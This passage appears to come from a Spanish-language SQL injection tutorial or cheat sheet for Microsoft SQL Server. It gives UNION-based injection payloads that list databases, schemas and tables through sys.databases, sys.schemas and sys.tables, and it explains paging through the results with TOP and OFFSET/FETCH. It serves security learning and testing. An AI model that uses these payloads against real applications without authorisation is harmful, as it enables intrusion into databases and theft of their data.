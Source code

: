 ```sql
' UNION SELECT name, NULL FROM sys.databases--
```

**Explicación:** `sys.databases` lista todas las bases de datos del servidor. En entornos alojados puede haber restricciones de privilegios.

### Listar schemas en la DB actual

En SQL Server diferenciamos bases de datos y schemas. Para listar schemas en la base de datos actual:

```sql
' UNION SELECT NULL, name FROM sys.schemas--
```

---

## Limit / Paginación

En SQL Server tenemos varias formas de limitar o paginar resultados según la versión:

- **TOP**: sintaxis clásica para limitar el número de filas devueltas. No admite `OFFSET` por sí solo.
    
- **OFFSET / FETCH**: disponible desde SQL Server 2012; requiere `ORDER BY`.
    
- **ROW_NUMBER()**: técnica universal para simular offset cuando `OFFSET/FETCH` no está disponible.
    

### Ejemplos con `TOP`

- Obtener la primera base de datos (alfabéticamente):
    

```sql
' UNION SELECT NULL, (SELECT TOP 1 name FROM sys.databases ORDER BY name) --
```

- Obtener las 5 primeras tablas (sin orden garantizado si no ponemos `ORDER BY`):
    

```sql
' UNION SELECT NULL, (SELECT TOP 5 name FROM sys.tables) --
```

> Nota: `TOP` devuelve las N primeras filas, pero **no** permite desplazamiento (offset) por sí mismo. Para paginar con desplazamiento necesitamos `ROW_NUMBER()` o `OFFSET/FETCH`.

### Ejemplos con `OFFSET/FETCH` (SQL Server 2012+)

- Obtener la primera fila (offset 0):
    

```sql
' UNION SELECT NULL, name FROM sys.tables WHERE schema_id = SCHEMA_ID('dbo') ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY--
```

- Iterar cambiando `OFFSET 0` → `OFFSET 1`, etc.
    